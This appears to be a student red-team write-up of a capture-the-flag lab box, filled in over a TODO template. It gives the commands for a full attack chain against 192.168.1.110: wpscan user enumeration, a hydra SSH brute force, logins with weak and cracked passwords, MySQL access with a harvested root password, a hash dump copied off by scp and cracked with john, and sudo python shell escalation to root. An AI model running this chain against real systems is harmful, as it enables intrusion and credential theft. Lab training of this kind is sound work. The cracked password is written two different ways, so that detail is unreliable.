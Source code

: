 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services
_TODO: Fill out the information below._

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap -sV 192.168.1.110
  
```
![npmap_scan](images/nmap_scan.png)

This scan identifies the services below as potential points of entry:
- Target 1
  - List of
  - Exposed Services
  22/tcp open ssh
  80/tcp open http
  111/tcp open rpcbind
  139/tcp netbios-ssn
  445/tcp netbios-ssn

_TODO: Fill out the list below. Include severity, and CVE numbers, if possible._

The following vulnerabilities were identified on each target:
- Target 1
  - List of
  - Critical
  - Vulnerabilities
  1. Wordpress User Enumeration
  2. Weak User Password
  3. Directory Exploration (mysql database password discovered)
  4. Unsalted User Password Hash (JohnTheRipper)

_TODO: Include vulnerability scan results to prove the identified vulnerabilities._

### Exploitation
_TODO: Fill out the details below. Include screenshots where possible._

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1.txt`: _TODO: Insert `flag1.txt` hash value_
  **Flag1: b9bbcb33ellb80be759c4e844862482d**
  ![flag1](images/flag1.png)
    - **Exploit Used**
      - _TODO: Identify the exploit used_
      WPSCAN Enumeration / HydraBruteForce
      - _TODO: Include the command run_
        - `$ wpscan --url http://192.168.1.110 --enumerate u`
          -`hydra -l michael -P /usr/share/wordlists/rockyou.txt 192.168.1.110 -t 4 ssh`
          ![hydra_michael](images/hydra_michael.png)
        - `ssh michael@192.168.1.110`
        - `pw: michael`
        - `cd ../../var/www/html`
        - `ls -l`
        - `nano service.html`

  - `flag2.txt`: _TODO: Insert `flag2.txt` hash value_
  **Flag2: fc3fd58dcdad9ab23faca6e9a3e581c**
  ![flag2](images/flag2.png)
    - **Exploit Used**
      - _TODO: Identify the exploit used_
      Directory Exploration
      - _TODO: Include the command run_
      - `ssh michael@192.168.1.110`
        - `pw: michael`
        - `cd ../../var/www`
        - `ls`
        - `cat flag2.txt`
  

  - `flag3.txt`: _TODO: Insert `flag3.txt` hash value_  
  **Flag3: afc01ab56b50591e7dccf93122770cd2**
  ![flag3](images/flag3.png)
      - _TODO: Identify the exploit used_
      Directory Exploration -> Database Access -> Database Exploration
      - _TODO: Include the command run_
            - found the wp-config.php file containing the database password
            - `mysql --host=localhost --user=root --password=R@v3nSecurity` 
            - `show databases;`
            - `use wordpress;` 
            - `show tables;`
            - `select * from wp_posts;`

  - `flag4.txt`: _TODO: Insert `flag4.txt` hash value_
  **Flag4: 715dea6c055b9fe3337544932f2941ce**
  ![flag4](images/flag4.png)
      - _TODO: Identify the exploit used_
      JohnTheRipper / sudo privilege abuse
      - _TODO: Include the command run_
        - `select * from wp_users INTO OUTFILE '/home/michael/wp_hashes.txt';`
        - `exit`
          - `cp wp_hashes.txt wp_hashes_cp.txt` to change file ownership from root to michael
          - `chmod 666 wp_hashes_cp.txt`
          - exit ssh to kali machine
          - `scp -P 22 michael@192.168.1.110:/home/michael/wp_hashes_cp.txt /root`
          - `john wp_hashes_cp.txt`
          - cracked - username: steven -> password: pink4 
        - `ssh steven@192.168.1.110`
        - `pw:pink84`
        - `sudo -l`
        - `sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’`
        - now have root access
        - `cd /root`
        - `ls`
        - `cat flag4.txt`